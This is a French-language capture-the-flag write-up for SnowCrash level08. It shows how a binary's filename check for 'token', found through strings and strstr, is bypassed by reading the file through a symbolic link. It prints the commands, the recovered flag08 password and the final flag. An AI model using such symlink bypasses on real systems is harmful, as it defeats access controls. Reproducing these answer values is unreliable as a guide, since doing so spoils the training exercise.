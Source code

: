 # Level08 - Lien symbolique
Pour résoudre le level08, on a un fichier level08 et un fichier token. Quand on exécute level08, on nous demande de lui donner un fichier à lire.

```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

On lui donne token, mais le programme nous dit que nous n'avons pas le droit de le lire.

```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

On utilise `strings` sur le programme, et on peut voir une ligne mentionnant `token`, et plus bas un appel à la fonction `strstr`:

```
%s [file to read]
token
You may not access '%s'
Unable to open %s
Unable to read fd %d
...
strstr@@GLIBC_2.0
```

Si on essaie d'exécuter le programme avec n'importe quel autre fichier, ce dernier est lu sans soucis. On en conclus donc qu'il y a une protection sur le nom du fichier que le programme lis, et que si ce dernier contient "token", il ne sera pas lu. Comme nous n'avons pas le droit de renommer token ou de le copier, on crée un lien symbolique qui sera nommé autrement, afin de tromper le programme.

```
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/toto
level08@SnowCrash:~$ ./level08 /tmp/toto
quif5eloekouj29ke0vouxean
```

On se connecte sur le compte flag08 et on obtient notre token:

```
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

On a notre token: `25749xKZ8L7DkSCwJkT9dyv6f`

